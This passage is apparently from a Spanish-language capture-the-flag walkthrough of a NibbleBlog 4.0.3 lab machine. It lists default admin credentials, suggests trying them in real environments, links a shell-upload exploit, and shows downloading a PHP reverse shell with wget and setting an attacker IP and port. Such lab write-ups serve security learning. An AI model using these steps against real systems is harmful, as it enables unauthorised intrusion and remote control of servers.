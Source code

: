 Las contraseñas que use fueron:
* usuario: admin
* contraseña: nibbles

OJO, esto a lo mejor te puede funcionar en un ambiente real, no esta de más probarlo cuando puedas.

Ahora si, busquemos un Exploit, recuerda que ya tenemos la versión siendo esta la **4.0.3**.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Exploit">Buscando un Exploit</h2>

En la búsqueda, encontré uno que nos puede servir.:
* https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html

Nos explica que podemos cargar un Payload de una **Reverse Shell** en un **archivo PHP** y nosotros ya conocemos uno, aunque es posible que si podemos ejecutar **archivos de PHP**, tengamos algunas formas de ganar acceso a la máquina.

<br>

<h3 id="Forma1">Utilizando Reverse Shell de PentestMonkey</h3>

Vamos a descargar y configurar la **Reverse Shell** de **PHP** de **pentestmonkey**.

Vámonos por pasos:

* Descarga el archivo:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 5491 (5.4K) [text/plain]
Grabando a: «php-reverse-shell.php»
*
php-reverse-shell.php  100%[=======================================================================================================================================>]   5.36K  --.-KB/s    en 0s      
*
(75.6 MB/s) - «php-reverse-shell.php» guardado [5491/5491]
```

* Cambia la IP y si quieres el puerto:
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // Pon tu IP
$port = 443;       // Si quieres cambia el puerto
$chunk_size = 1400;
```
